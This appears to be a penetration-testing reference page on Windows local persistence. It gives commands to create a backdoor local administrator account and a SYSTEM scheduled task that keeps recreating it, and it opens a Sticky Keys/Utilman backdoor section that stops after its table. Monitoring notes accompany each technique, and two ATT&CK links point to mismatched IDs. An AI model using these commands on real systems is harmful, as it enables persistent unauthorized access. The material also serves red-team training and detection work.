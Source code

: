 # Windows - Post exploitation - Local persistence

A number of techniques can be employed to maintain persistence on a Windows
system, with the goal of maintaining access on the systems across restarts or
other forms of interruption. For a more comprehensive list of the
persistence that can be employed, refer to the entry for persistence in the
[MITRE ATT&CK matrices (TA0003)](https://attack.mitre.org/tactics/TA0003/).

Some of the techniques mentioned below can be accomplished through
`Cobalt Strike`'s `execute-assembly`
(or [`InlineExecute-Assembly`](https://github.com/anthemtotheego/InlineExecute-Assembly))
using the [`SharPersist`](https://github.com/mandiant/SharPersist) C# utility.

The forensics artefacts left by (some) of the persistence techniques detailed
below are detailed in the `[DFIR] Windows - TTPs analysis - Local persistence`
note.

### Local Administrator account

| ATT&CK | Persistence type | Privilege level required | Monitoring possibilities |
|--------|------------------|--------------------------|--------------------------|
| [T1136.001](https://attack.mitre.org/techniques/T1098/) | Remote access. | `Administrator`. | Windows default `Security` events. <br><br> Windows `API` monitoring. |

The following `net user` commands can be used to create and add a local
account to the local `Administrators` group (directly or periodically through a
`Scheduled Task`):

```bash
# Creates a new account.
net user /add <USERNAME> <PASSWORD>

# Adds account as administrator.
net localgroup Administrators <USERNAME> /add
net localgroup Administrateurs <USERNAME> /add

# Define a scheduled task that will create a local user and add it to the local Administrator group every <MODIFIER>.
# The <PERIODICITY> depends on the periodicity chosen (minute, hourly, daily, weekly, or monthly): 1 - 1439 for minutes, 1 - 23 for hours, 1 - 365 for days, 1 - 52 for weeks or 1 - 12 for months.
# To avoid a warning on the password length (that may require an user interaction), the password specified should be shorter than 14 characters.
schtasks /create /tn "<TASK_NAME>" /tr "cmd /c net user <USERNAME> <PASSWORD> /add && net localgroup Administrators <USERNAME> /add" /sc <minute | hourly | daily | weekly | monthly> /mo <PERIODICITY> /RU "NT AUTHORITY\SYSTEM"
```

### Sticky Keys or Utilman backdoors

| ATT&CK | Persistence type | Privilege level required | Monitoring possibilities |
|--------|------------------|--------------------------|--------------------------|
| [T1546.008](https://attack.mitre.org/techniques/T1547/001/) | Remote access. | `Administrator`. | Non default specific `DACL` on the `sethc.exe` and `utilman.exe` files to raise alert upon modification. <br><br> Windows `API` monitoring. |
